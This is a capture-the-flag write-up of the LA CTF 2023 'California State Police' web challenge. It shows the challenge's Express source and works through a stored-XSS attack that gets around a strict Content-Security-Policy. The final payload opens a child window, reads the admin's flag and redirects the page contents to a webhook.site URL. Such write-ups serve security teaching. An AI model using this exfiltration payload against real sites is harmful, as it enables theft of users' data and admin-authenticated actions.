


# California State Police

# This was a web challenge from LA CTF 2023.




## Analysis

We are provided with the source for `index.js`:

```javascript
const express = require("express");
const path = require("path");
const { v4: uuid } = require("uuid");
const cookieParser = require("cookie-parser");

const flag = process.env.FLAG;
const port = parseInt(process.env.PORT) || 8080;
const adminpw = process.env.ADMINPW || "placeholder";

const app = express();

const reports = new Map();

let cleanup = [];

setInterval(() => {
    const now = Date.now();
    let i = cleanup.findIndex(x => now < x[1]);
    if (i === -1) {
        i = cleanup.length;
    }
    for (let j = 0; j < i; j ++) {
        reports.delete(cleanup[j][0]);
    }
    cleanup = cleanup.slice(i);
}, 1000 * 60);

app.use(cookieParser());
app.use(express.urlencoded({ extended: false }));

app.get("/flag", (req, res) => {
    res.status(400).send("you have to POST the flag this time >:)");
});

app.post("/flag", (req, res) => {
    if (req.cookies.adminpw === adminpw) {
        res.send(flag);
    } else {
        res.status(400).send("no hacking allowed");
    }
});

app.use((req, res, next) => {
    res.set(
        "Content-Security-Policy",
        "default-src 'none'; script-src 'unsafe-inline'"
    );
    next();
});

app.post("/report", (req, res) => {
    res.type("text/plain");
    const crime = req.body.crime;
    if (typeof crime !== "string") {
        res.status(400).send("no crime provided");
        return;
    }
    if (crime.length > 2048) {
        res.status(400).send("our servers aren't good enough to handle that");
        return;
    }
    const id = uuid();
    reports.set(id, crime);
    cleanup.push([id, Date.now() + 1000 * 60 * 60 * 3]);
    res.redirect("/report/" + id);
});

app.get("/report/:id", (req, res) => {
    if (reports.has(req.params.id)) {
        res.type("text/html").send(reports.get(req.params.id));
    } else {
        res.type("text/plain").status(400).send("report doesn't exist");
    }
});

app.get("/", (req, res) => {
    res.sendFile(path.join(__dirname, "index.html"));
});

app.listen(port, () => {
    console.log(`Listening on port ${port}`);
});
```

By studying this source, we can see that we have to submit a URL to the admin bot and, somehow, get it to POST to `/flag`, read the response (the flag) and exfiltrate it.

Visiting the challenge page shows:



You can type anything you want and click the button.  The server will store your post associated with new UUID and redirect you to a URL like this that will return exactly what you posted:

https://california-state-police.lac.tf/report/c354c6ab-fcef-4020-92ce-4a19982ad88e

Clearly we have XSS.  Normally, it would be trivial to post a script that would use `fetch()` to POST to `/flag` read the response and exfiltrate it.  However, we have this Content-Security-Policy (CSP):

```
default-src 'none'; script-src 'unsafe-inline'
```

If you are new to CSPs, you can read all about it here: 

https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy

Key takeaways from this policy are:

- `script-src 'unsafe-inline'` - we are allowed to have inline javascript like `<script>alert(0)</script>` 
- `default-src 'none'` - **every other** `*-src` policies default to `none` . A few relevant examples:
  - `frame-src` - we cannot use `<frame>` or `<iframe>`
  - `connect-src` - we cannot connect to anything using functions like `fetch()` 


## Obstacle 1

We know we need to get the admin bot to do a POST to `/flag`.  Let's try to tackle that first.

Without the CSP, we would use `fetch()` to do the POST and read the response.  But that is out.

How else can we do it?

Well, we know that the site **does** support POSTing via form because it lets us POST our payload.  Let's craft a payload that has an html form that will POST to `/flag` along with a small script to click the submit button.

```html
<form method="POST" action="/flag">
    <input id="frog" type="submit" value="what?">
</form>
<script>frog.click()</script>
```


When we post the above content, it works!  The form renders, the script clicks the button, the browser POSTs to `/flag` and it returns `no hacking allowed` (because we don't have the admin bot's cookie).

If we were to submit the URL for this payload to the admin bot, it would do the above and the flag would end up showing in the browser window.

Of course, this doesn't help us since we have no way to exfiltrate it.  Still, it is progress.

If we were allowed to use an `<iframe>` then we could put the above in an iframe, the flag would appear there, and a script in the parent page could read it. Of course, the CSP prevents this.

After a while, we thought of the idea of opening a child windows instead of using an iframe.

The idea is that we would post the above and save the URL for it.

Then we'd craft a new payload that would open that URL in a child window.  Something like this:

```html
<script>
    let win=window.open('https://california-state-police.lac.tf/report/ff130ed3-776b-440d-b60f-5fd8bf62b89e')
    setTimeout(() => {
        let data = win.document.documentElement.innerHTML
        console.log(data)
    }, 500)
</script>
```

This script opens the previous payload in a child window.  We already know the flag will appear there. The script then waits a bit (for the flag to appear), reads the content of the child window, and logs it to the console.

When we tried this in **our** browser the very first time, chrome blocked the child window from appearing due to the popup blocker policy.  We disabled that policy on this site. We'll just have to "hope" that the policy is disabled in the admin bot's browser.

After allowing popups, we retried.  The child window appeared in a new tab, the flag appeared inside it, and the html content was logged to our original window.

At this point, if we submitted this to the admin bot, the flag would get logged to its browser console.

## Obstacle 2

Normally, we use `fetch()` for exfiltration, but the CSP will not allow this.  Fortunately, this is a really easy obstacle to bypass.

Instead of using `fetch()` we can set `location.href=<some-url>` and the browser will "go visit" that new URL. This does not violate the CSP.

## Getting the Flag

Putting our two pieces together, we get this payload:

```html
<script>
    let win=window.open('https://california-state-police.lac.tf/report/ff130ed3-776b-440d-b60f-5fd8bf62b89e')
    setTimeout(() => {
        let data = win.document.documentElement.innerHTML
        window.location.href='https://webhook.site/d14effde-ca5f-43af-b2cb-727fddbbc870?data='+data
    }, 500)
</script>
```

When we post this ourselves, we see the `no hacking allowed` (along with some html) in our exfiltration site.

We can now submit this URL to the admin bot.

Indeed, the flag appears on our exfiltration site:

```
	<head></head><body>lactf{m4yb3_g1v1ng_fr33_xss_1s_jus7_4_b4d_1d3a}</body>
```

 Thanks to LA CTF for a great web challenge.


